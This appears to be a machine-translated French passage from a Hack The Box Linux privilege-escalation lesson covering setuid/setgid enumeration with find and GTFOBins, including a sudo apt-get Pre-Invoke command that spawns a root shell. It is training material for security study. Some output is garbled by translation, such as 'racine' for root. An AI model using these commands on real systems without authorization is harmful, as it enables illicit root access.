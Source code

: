 Autorisations spéciales
===================

* * * * *

Bit Sétuide
----------

L'autorisation `Set User ID upon Execution` (`setuid`) peut permettre à un utilisateur d'exécuter un programme ou un script avec les autorisations d'un autre utilisateur, généralement avec des privilèges élevés. Le bit `setuid` apparaît sous la forme d'un `s`.

```
dsgsec@htb[/htb]$ find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null

-rwsr-xr-x 1 racine racine 16728 1er septembre 19:06 /home/htb-student/shared_obj_hijack/payroll
-rwsr-xr-x 1 racine racine 16728 1 sept. 22:05 /home/mrb3n/payroll
-rwSr--r-- 1 racine racine 0 31 août 02:51 /home/cliff.moore/netracer
-rwsr-xr-x 1 racine racine 40152 30 novembre 2017 /bin/mount
-rwsr-xr-x 1 racine racine 40128 17 mai 2017 /bin/su
-rwsr-xr-x 1 racine racine 27608 30 novembre 2017 /bin/umount
-rwsr-xr-x 1 racine racine 44680 7 mai 2014 /bin/ping6
-rwsr-xr-x 1 racine racine 30800 12 juillet 2016 /bin/fusermount
-rwsr-xr-x 1 racine racine 44168 7 mai 2014 /bin/ping
-rwsr-xr-x 1 racine racine 142032 28 janvier 2017 /bin/ntfs-3g
-rwsr-xr-x 1 racine racine 38984 14 juin 2017 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
-rwsr-xr-- 1 root messagebus 42992 12 janvier 2017 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 racine racine 14864 18 janvier 2016 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-sr-x 1 racine racine 85832 30 novembre 2017 /usr/lib/snapd/snap-confine
-rwsr-xr-x 1 racine racine 428240 18 janvier 2018 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 racine racine 10232 27 mars 2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 racine racine 23376 18 janvier 2016 /usr/bin/pkexec
-rwsr-sr-x 1 racine racine 240 1 février 2016 /usr/bin/facter
-rwsr-xr-x 1 racine racine 39904 17 mai 2017 /usr/bin/newgrp
-rwsr-xr-x 1 racine racine 32944 17 mai 2017 /usr/bin/newuidmap
-rwsr-xr-x 1 racine racine 49584 17 mai 2017 /usr/bin/chfn
-rwsr-xr-x 1 racine racine 136808 4 juillet 2017 /usr/bin/sudo
-rwsr-xr-x 1 racine racine 40432 17 mai 2017 /usr/bin/chsh
-rwsr-xr-x 1 racine racine 32944 17 mai 2017 /usr/bin/newgidmap
-rwsr-xr-x 1 racine racine 75304 17 mai 2017 /usr/bin/gpasswd
-rwsr-xr-x 1 racine racine 54256 17 mai 2017 /usr/bin/passwd
-rwsr-xr-x 1 racine racine 10624 9 mai 2018 /usr/bin/vmware-user-suid-wrapper
-rwsr-xr-x 1 racine racine 1588768 31 août 00:50 /usr/bin/screen-4.5.0
-rwsr-xr-x 1 racine racine 94240 9 juin 14:54 /sbin/mount.nfs

```

Il peut être possible de désosser le programme avec le jeu de bits SETUID, d'identifier une vulnérabilité et de l'exploiter pour élever nos privilèges. De nombreux programmes ont des fonctionnalités supplémentaires qui peuvent être exploitées pour exécuter des commandes et, si le bit `setuid` est défini sur eux, celles-ci peuvent être utilisées pour notre objectif.

La permission Set-Group-ID (setgid) est une autre permission spéciale qui nous permet d'exécuter des binaires comme si nous faisions partie du groupe qui les a créés. Ces fichiers peuvent être énumérés à l'aide de la commande suivante : `find / -uid 0 -perm -6000 -type f 2>/dev/null`. Ces fichiers peuvent être exploités de la même manière que les binaires `setuid` pour augmenter les privilèges.

```
dsgsec@htb[/htb]$ find / -user root -perm -6000 -exec ls -ldb {} \; 2>/dev/null

-rwsr-sr-x 1 racine racine 85832 30 novembre 2017 /usr/lib/snapd/snap-confine

```

Cette [ressource](https://linuxconfig.org/how-to-use-special-permissions-the-setuid-setgid-and-sticky-bits) contient plus d'informations sur les bits `setuid` et `setgid` , y compris comment définir les bits.

* * * * *

GTFOBins
--------

Le projet [GTFOBins](https://gtfobins.github.io/) est une liste organisée de fichiers binaires et de scripts pouvant être utilisés par un attaquant pour contourner les restrictions de sécurité. Chaque page détaille les fonctionnalités du programme qui peuvent être utilisées pour sortir des shells restreints, élever les privilèges, générer des connexions shell inversées et transférer des fichiers. Par exemple, `apt-get` peut être utilisé pour sortir d'environnements restreints et générer un shell en ajoutant une commande Pre-Invoke :

```
dsgsec@htb[/htb]$ sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh

# identifiant
uid=0(root) gid=0(root) groupes=0(root)

```

Cela vaut la peine de se familiariser avec autant de GTFOBins que possible pour identifier rapidement les erreurs de configuration lorsque nous atterrissons sur un système que nous devons élever nos privilèges pour aller plus loin.
